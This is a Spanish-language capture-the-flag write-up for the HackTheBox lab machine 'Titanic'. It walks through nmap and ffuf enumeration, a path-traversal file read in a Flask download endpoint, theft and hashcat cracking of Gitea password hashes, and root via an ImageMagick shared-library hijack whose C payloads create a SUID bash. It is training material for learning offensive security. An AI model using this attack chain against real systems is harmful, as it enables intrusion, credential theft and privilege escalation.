>`Aviso` Este writeup es algo viejo, por lo que puede tener errores (Este mismo texto se incluira en todos los writeups que sean old)
{: .prompt-info }

Titanic es una maquina catalogada como easy en la plataforma de HackTheBox. A la fecha que redacto este writeup esta marcada como retirada asi que sera un poco mas facil por si no tienes muchos conocimientos acerca de el como atacar una maquina o simplemente eres nuevo por aqui. Es una maquina interesante que muestra el como a veces la vagancia de asegurar algo bien termina mal so, no abundare mas y sigan viendo :p

Empezaremos con nuestro nmap de siempre para descubrir los puertos que estan abiertos con el siguiente comando:

```bash

❯ nmap -A -sV --min-rate 5000 -T5 -p- 10.10.11.55 -vvv --open -oN scan.txt -Pn
```

El cual nos regresa la siguiente info:



Nos da de resultado que tenemos el puerto 22 (SSH) y el puerto 80 (HTTP) habilitado, con una web que redirige al dominio [`titanic.htb`]. Al ingresarlo en nuestro /etc/host nos devuelve la siguiente web:


Aparentemente todo parece moderno y seguro, pero antes de entrar en herramientas para buscar ya sea directorios o cosas similares, primero veamos e interactuemos con la web para ver si encontramos algo de lo cual podamos aprovecharnos antes de recurrir a las herramientas.

Enumerando la web no nos encontramos con muchas cosas, pero lo que si nos puede servir como vector seria lo siguiente:


Es algo simple, pero que nos puede ser util. Ahora que podemos hacer? Podemos interceptar esta solicitud con Burp Suite (Para el que no sabe lo que es, es basicamente un intermediario entre la maquina de nosotros y el servidor, permitiendonos capturar solicitudes y posteriormente modificarlas y enviarlas).

Una vez que capturamos esta solicitud, podemos ver lo siguiente:



Esta solicitud la enviaremos al repeater de Burp para ver hacia donde se dirige posteriormente:



Tenemos algo de interes, siguiendo la redireccion nos topamos con lo siguiente:



Perfecto. Tenemos un parametro de ticket en download apuntando a un archivo. Esto podemos ver si es vulnerable a LFI enviando una solicitud difeente en el ticket que apunte a /etc/passwd para ver si devuelve el contenido. Al hacer esto, nos devuelve lo siguiente:



Bingo! No fue tan dificil despues de todo :v

Aqui el contenido completo:

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

Por si quieres leer todo el contenido :]

Pero esto es solo una parte del camino. Aunque podríamos obtener el flag del usuario simplemente accediendo a [`/home/developer/user.txt`], aún no tenemos una forma real de entrar a la máquina —nos hace falta algo más.

Así que en este punto decidimos enumerar los virtual hosts del dominio principal usando una herramienta llamada [`ffuf`] (por si había algún subdominio interesante). Y efectivamente, esto nos devolvió lo siguiente:

Comando:

```bash
❯ ffuf -u http://titanic.htb -w /usr/share/seclists/Discovery/DNS/bug-bounty-program-subdomains-trickest-inventory.txt -H "Host: FUZZ.titanic.htb" -fc 301
```

Resultado:



Genial. Tenemos un subdominio por lo que vemos, por lo que ahora una vez agregado a nuestro /etc/hosts vemos lo siguiente:



Nos devuelve una nueva web, lo bueno es que no debemos registrarnos para ver lo que hay en ella, asi que hechandole un vistazo rapidamente nos encontramos con lo siguiente:




Nos encontramos con algo interesante que dejaron los desarrolladores, de entre los cuales esta una app de flask que hechandole un vistazo vemos esto:



Viendo el archivo `app.py` se encuentra el codigo fuente de la pagina:



Aqui el codigo:

```python
from flask import Flask, request, jsonify, send_file, render_template, redirect, url_for, Response
import os
import json
from uuid import uuid4

app = Flask(__name__)

TICKETS_DIR = "tickets"

if not os.path.exists(TICKETS_DIR):
    os.makedirs(TICKETS_DIR)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/book', methods=['POST'])
def book_ticket():
    data = {
        "name": request.form['name'],
        "email": request.form['email'],
        "phone": request.form['phone'],
        "date": request.form['date'],
        "cabin": request.form['cabin']
    }

    ticket_id = str(uuid4())
    json_filename = f"{ticket_id}.json"
    json_filepath = os.path.join(TICKETS_DIR, json_filename)

    with open(json_filepath, 'w') as json_file:
        json.dump(data, json_file)

    return redirect(url_for('download_ticket', ticket=json_filename))

@app.route('/download', methods=['GET'])
def download_ticket():
    ticket = request.args.get('ticket')
    if not ticket:
        return jsonify({"error": "Ticket parameter is required"}), 400

    json_filepath = os.path.join(TICKETS_DIR, ticket)

    if os.path.exists(json_filepath):
        return send_file(json_filepath, as_attachment=True, download_name=ticket)
    else:
        return jsonify({"error": "Ticket not found"}), 404

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=5000)
```

De aqui viene lo que descubrimos anteriormente (El LFI) ya que si nos fijamos, el parametro de `download` no esta correctamente sanitizado, y por ende, ocurre la vulnerabilidad. Viendo el contenido de el otro archivo nos llevamos lo siguiente:



Y como vemos, lo que nos llama mas la atencion es la carpeta de gitea, que al ver el contenido posee lo siguiente:



Y viendo el contenido nos llevamos lo siguiente:



Al parecer el usuario que vimos anteriormente (`developer`) posee una instalacion de gitea en su directorio de usuario, apuntando que todos los datos se muestran dentro de el `gitea/data/`, por lo que, si hacemos una prueba para verificar que la base de datos se encuentra alli, recibimos lo siguiente:



El resultado nos da positivo, asi que descarguemos la base de datos para ver que podemos hacer con ella. Esto lo podemos hacer facil y rapido con el comando `wget`:

```bash
❯ wget 'http://titanic.htb/download?ticket=../../../../../home/developer/gitea/data/gitea//gitea.db'
```

El cual ya nos guarda el archivo en la carpeta que estamos trabajando:



Perfecto, tenemos la base de datos asi que, conectemonos a ella a traves de sqlite3. Esto lo hacemos facil y simple con el comando `sqlite3 <dbfile>`:

```bash
❯ sqlite3 gitea.db
```

Una vez que entramos escribimos el siguiente comando para ver las tablas que posee con el siguiente comando:

```sqlite
sqlite> .tables
```

El cual nos devuelve lo siguiente:



Vale, muchas tablas para analizar, pero buscamos por lo mas destacado, la de usuarios, y por ende si la encontramos :]



Asi de facil, ahora seria simplemente escribir la siguiente consulta:

```sqlite
sqlite> select * from user;
```

el cual nos devuelve lo siguiente:



(Aqui lo dejare en un mejor formato)

```sqlite
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
```

Perfecto, que procede?

Ya que tenemos los hashes (Y el que nos interesa por el momento es el de developer), podemos usar hashcat para la tarea (cabe recalcar que mi version es beta en caso de :v)

PERO antes de eso, necesitamos uso de una herramienta en github llamada [gitea2hashcat](https://gist.githubusercontent.com/h4rithd/0c5da36a0274904cafb84871cf14e271/raw/7cae5b21473839cf9625c15303cf54b5c591d52f/gitea2hashcat.py) para la tarea (Si no queremos complicarnos mas de la cuenta claro)

La descargamos con wget:

```bash
❯ wget https://gist.githubusercontent.com/h4rithd/0c5da36a0274904cafb84871cf14e271/raw/7cae5b21473839cf9625c15303cf54b5c591d52f/gitea2hashcat.py
```

Y procedemos a correrla con el siguiente comando:

```bash
❯ python3 gitea2hashcat.py gitea.db
```

El cual nos devuelve esto:



Perfecto, tenemos los hashes, ahora guardamos el hash de developer y procedemos al crackeo con el siguiente comando.

Para guardar el hash:

```bash

❯ echo "sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=" > dev.hash
```

Y cracking con hashcat:

```bash

❯ hashcat dev.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --force
```

El cual nos da esto:



Perfecto, tenemos la pass la cual es:

`25282528`

Ahora podemos verificar a traves de ssh si nos deja entrar y nos da esto.

Comando:

```bash

❯ ssh developer@titanic.htb
```

Resultado:

```bash
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


developer@titanic:~$ 
```



Niti2, tenemos ahora si oficialmente al user.txt (Y no a traves del LFI :V).

Que sigue? Bueno, toca escalar nuestros privilegios ahora :)

Como lo haremos? Podemos hacer una enumeracion basica del sistema, ejemplo, viendo carpetas o incluso permisos, empezando con `sudo -l`, el cual devuelve lo siguiente:

```bash
developer@titanic:~$ sudo -l
[sudo] password for developer: 
Sorry, user developer may not run sudo on titanic.
developer@titanic:~$ 
```

Lamentablemente no podemos ejecutar nada como sudo, pero revisando algunas carpetas como `/opt` nos encontramos con lo siguiente:

```bash
developer@titanic:/$ ls -la
total 72
drwxr-xr-x  19 root root  4096 Feb  7 10:37 .
drwxr-xr-x  19 root root  4096 Feb  7 10:37 ..
lrwxrwxrwx   1 root root     7 Aug 10  2023 bin -> usr/bin
drwxr-xr-x   3 root root  4096 Feb  7 10:37 boot
drwxr-xr-x  19 root root  3960 Jul  2 17:22 dev
drwxr-xr-x 109 root root  4096 Feb 10 19:48 etc
drwxr-xr-x   3 root root  4096 Aug  1  2024 home
lrwxrwxrwx   1 root root     7 Aug 10  2023 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Aug 10  2023 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Aug 10  2023 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Aug 10  2023 libx32 -> usr/libx32
drwx------   2 root root 16384 Aug  1  2024 lost+found
drwxr-xr-x   2 root root  4096 Feb  7 10:37 media
drwxr-xr-x   2 root root  4096 Aug 10  2023 mnt
drwxr-xr-x   5 root root  4096 Feb  7 10:37 opt
dr-xr-xr-x 286 root root     0 Jul  2 17:22 proc
drwx------   7 root root  4096 Jul  2 17:27 root
drwxr-xr-x  33 root root  1000 Jul  2 21:03 run
lrwxrwxrwx   1 root root     8 Aug 10  2023 sbin -> usr/sbin
drwxr-xr-x   6 root root  4096 Feb  7 10:37 snap
drwxr-xr-x   2 root root  4096 Aug 10  2023 srv
dr-xr-xr-x  13 root root     0 Jul  2 17:22 sys
drwxrwxrwt  14 root root  4096 Jul  3 00:37 tmp
drwxr-xr-x  14 root root  4096 Aug 10  2023 usr
drwxr-xr-x  14 root root  4096 Aug  1  2024 var
developer@titanic:/$ ls -la opt
total 20
drwxr-xr-x  5 root root      4096 Feb  7 10:37 .
drwxr-xr-x 19 root root      4096 Feb  7 10:37 ..
drwxr-xr-x  5 root developer 4096 Feb  7 10:37 app
drwx--x--x  4 root root      4096 Feb  7 10:37 containerd
drwxr-xr-x  2 root root      4096 Feb  7 10:37 scripts
developer@titanic:/$ 
```

Y revisando las subcarpetas que trae vemos lo siguiente:

```bash
developer@titanic:/$ cd opt
developer@titanic:/opt$ ls -la *
app:
total 24
drwxr-xr-x 5 root developer 4096 Feb  7 10:37 .
drwxr-xr-x 5 root root      4096 Feb  7 10:37 ..
-rwxr-x--- 1 root developer 1598 Aug  2  2024 app.py
drwxr-x--- 3 root developer 4096 Feb  7 10:37 static
drwxr-x--- 2 root developer 4096 Feb  7 10:37 templates
drwxrwx--- 2 root developer 4096 Jul  2 19:50 tickets
ls: cannot open directory 'containerd': Permission denied

scripts:
total 12
drwxr-xr-x 2 root root 4096 Feb  7 10:37 .
drwxr-xr-x 5 root root 4096 Feb  7 10:37 ..
-rwxr-xr-x 1 root root  167 Feb  3 17:11 identify_images.sh
developer@titanic:/opt$ 
```

Tenemos un script ejecutandose como root (Y tambien es propiedad del mismo), por lo que revisando su contenido vemos lo siguiente:

```bash
developer@titanic:/opt$ cd scripts/
developer@titanic:/opt/scripts$ cat identify_images.sh 
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
developer@titanic:/opt/scripts$ 
```

Esto nos da indicios de donde el script busca las imagenes, en que formato, y con que herramienta lo ejecuta.

Revisando la version de la app que es `magick` vemos que su version es la siguiente:

```bash
developer@titanic:/opt/scripts$ magick --version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype heic jbig jng jp2 jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (9.4)
developer@titanic:/opt/scripts$ 
```

Investigando la version en internet nos encontramos con el siguiente CVE:



Perfe, ya tenemos un punto potencial de escalamiento, por lo que, usaremos el siguiente [poc](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8):



Perfecto, cada vez mas cerca de root no? Pues ejecutemos la tarea.

Primero usaremos el segundo payload, el de la ejecucion de comandos y lo haremos desde la carpeta que el script ejecuta el magick vulnerable como root, osea, desde `/opt/app/static/assets/images/` :

```bash
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void init(){
    system("id");
    exit(0);
}
EOF
developer@titanic:/opt/app/static/assets/images$ id
uid=1000(developer) gid=1000(developer) groups=1000(developer)
developer@titanic:/opt/app/static/assets/images$ magick /dev/null /dev/null
uid=1000(developer) gid=1000(developer) groups=1000(developer)
developer@titanic:/opt/app/static/assets/images$ 
```

Uff, nos da positivo, ahora, que pasa si queremos leer la flag unicamente?

Pues debemos cambiar el comando que se encuentra en `system("id")` por `cat /root/root.txt` de la siguiente forma:

```bash
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/hello.txt");
    exit(0);
}
EOF
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg  exquisite-dining.jpg  favicon.ico  home.jpg  libxcb.so.1  luxury-cabins.jpg  metadata.log  new.jpg
developer@titanic:/opt/app/static/assets/images$ cp home.jpg new.jpg
developer@titanic:/opt/app/static/assets/images$ cp home.jpg old.jpg
developer@titanic:/opt/app/static/assets/images$ 
developer@titanic:/opt/app/static/assets/images$ ls /tmp
flag.txt                 systemd-private-9006c3bb0e3a45a8b4a3b55e17902854-apache2.service-rjh3p8
hello.txt                systemd-private-9006c3bb0e3a45a8b4a3b55e17902854-ModemManager.service-o0fzD7
libxcb.c                 systemd-private-9006c3bb0e3a45a8b4a3b55e17902854-systemd-logind.service-AW3Cl2
libxcb.so.1              systemd-private-9006c3bb0e3a45a8b4a3b55e17902854-systemd-resolved.service-DqFyQn
rootbash                 systemd-private-9006c3bb0e3a45a8b4a3b55e17902854-systemd-timesyncd.service-7IKi97
snap-private-tmp         vmware-root_621-4013788914
ssh_client_ip_developer
developer@titanic:/opt/app/static/assets/images$ cat /tmp/hello
cat: /tmp/hello: No such file or directory
developer@titanic:/opt/app/static/assets/images$ cat /tmp/hello.txt
6ef3f8fe225f87fdc335ac4f15db60af
developer@titanic:/opt/app/static/assets/images$ 
```

Como podemos ver, al cabo de un tiempo que se borra el nuevo lib (Porque el root lo ejecuta) nos manda el root.txt al tmp con el nombre que le dimos, que es `hello.txt`, cabe recalcar que para que funcione correctamente debemos generar una nueva imagen (o copiar las que ya tenemos xd) para que asi detecte una nueva imagen y por lo tanto, se vea en la obligacion de ejecutar. Ahora, si queremos shell como root como lo hariamos? haciendo lo siguiente:

Primero creamos una copia de `/bin/bash` en `/tmp` para posteriormente hacer el binario suideable y escalar a root por alli tal y como se muestra aqui:

```bash
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
__attribute__((constructor)) void init(){
    system("cp /bin/bash /tmp/unknown && chmod 4777 /tmp/unknown");
    exit(0);
}
EOF
developer@titanic:/opt/app/static/assets/images$ cp home.jpg new.jpg
developer@titanic:/opt/app/static/assets/images$ ls /tmp
flag.txt                 systemd-private-9006c3bb0e3a45a8b4a3b55e17902854-apache2.service-rjh3p8
hello.txt                systemd-private-9006c3bb0e3a45a8b4a3b55e17902854-ModemManager.service-o0fzD7
libxcb.c                 systemd-private-9006c3bb0e3a45a8b4a3b55e17902854-systemd-logind.service-AW3Cl2
libxcb.so.1              systemd-private-9006c3bb0e3a45a8b4a3b55e17902854-systemd-resolved.service-DqFyQn
rootbash                 systemd-private-9006c3bb0e3a45a8b4a3b55e17902854-systemd-timesyncd.service-7IKi97
snap-private-tmp         unknown
ssh_client_ip_developer  vmware-root_621-4013788914
developer@titanic:/opt/app/static/assets/images$ /tmp/unknown -p
unknown-5.1# whoami
root
unknown-5.1# 
```

Y somos root!

Esperaba mas nivel la verdad (Me costo un poco la primera vez KD)

Pero bueno, este fue el hermoso writeup de "Titanic" una excelente maquina si recien empiezas en hacking web o estas haciendo el path del CBBH como yo o alguno otro que tenga que ver con web, suerte, y gracias por leer :]